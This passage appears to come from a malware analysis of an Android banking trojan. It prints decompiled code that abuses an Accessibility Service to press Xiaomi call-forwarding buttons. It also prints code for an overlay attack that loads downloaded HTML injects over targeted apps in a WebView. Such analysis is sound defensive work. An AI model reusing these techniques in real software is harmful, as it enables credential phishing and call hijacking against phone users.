 ```cs
                if(v % 5 == 0) {
                    injAccessibilityService0.performClick(injAccessibilityService0.getRootInActiveWindow(), "");
                }

                try {
                    Thread.sleep(1000L);
                    if(injAccessibilityService0.getRootInActiveWindow() != null) {
                        injAccessibilityService0.getRootInActiveWindow().refresh();
                    }

                    boolean z = this.tryToClickXiaomiCallForwardingButton(injAccessibilityService0, accessibilityEvent0);
                }
                catch(InterruptedException unused_ex) {
                    return;
                }

                if(z) {
                    return true;
                }

                ++v;
                continue;
                this.tryToClickXiaomiCallForwardingButton(injAccessibilityService0, accessibilityEvent0);
                return false;
            }
        }
```

## Overlay attack

As we see the malware will download a `zip` file contains `html` files of the targeted apps. If a targeted APP is opened then the malware will launch the `html` file of the targeted app. Located in `com.sdktools.android.bot.components.injects.system`.

```cs
public class ViewerActivityInterfaceImpl extends IScreen {
    public interface LifeCycleListener {
        boolean onPause();

        boolean onResume();
    }

 public ViewerActivityInterfaceImpl(InjectModel injectModel0) {
        this.injectModel = injectModel0;
    }

    public ViewerActivityInterfaceImpl(InjectModel injectModel0, LifeCycleListener viewerActivityInterfaceImpl$LifeCycleListener0) {
        this.injectModel = injectModel0;
        this.lifeCycleListener = viewerActivityInterfaceImpl$LifeCycleListener0;
    }

    private void handleData(Activity activity0) {
        try {
            this.webView.clearView();
            String s = this.injectModel.getInjectPath();
            s = s.startsWith("http") ? this.injectModel.getInjectPath() : "file:///" + s;
            this.webView.loadUrl(s);
            Timber.d("INJECTS -> display file: " + s, new Object[0]);
        }
```